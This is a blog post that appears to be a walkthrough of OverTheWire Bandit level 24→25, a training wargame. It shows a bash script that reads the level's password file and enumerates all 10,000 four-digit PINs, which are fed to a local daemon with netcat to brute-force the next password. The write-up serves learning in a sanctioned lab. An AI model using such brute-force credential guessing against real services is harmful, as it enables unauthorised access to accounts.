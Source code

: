 ```yaml
---
layout: post
title:  "Bandit Level 24 → Level 25"
date:   2021-05-22 21:24:46
categories: ctf wargames linux
tags: wargames ctf overthewire linux
series: "OverTheWire: Bandit"
excerpt: watch this
mathjax: false
---
```


## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.


## Solution
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
^C
bandit24@bandit:~$ cd `mktemp -d`
bandit24@bandit:/tmp/tmp.XeNXy1uRbi$ vim getpass.sh
bandit24@bandit:/tmp/tmp.XeNXy1uRbi$ chmod 777 getpass.sh
bandit24@bandit:/tmp/tmp.XeNXy1uRbi$ chmod 777 /tmp/tmp.XeNXy1uRbi
bandit24@bandit:/tmp/tmp.XeNXy1uRbi$ ./getpass.sh > answerfile
bandit24@bandit:/tmp/tmp.XeNXy1uRbi$ nc localhost 30002 < answerfile
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is u------------------------------G
Exiting.

```

Contents of getpass.sh
```bash
#!/bin/bash                           
passwd=$(cat /etc/bandit_pass/bandit24)

for i in {0..9999}; do
  printf "%s %04d\n" "$passwd" "$i"
done
```

## Explanation
This level further explores Bash scripting. This time you need to know how to use a for loop and printf.
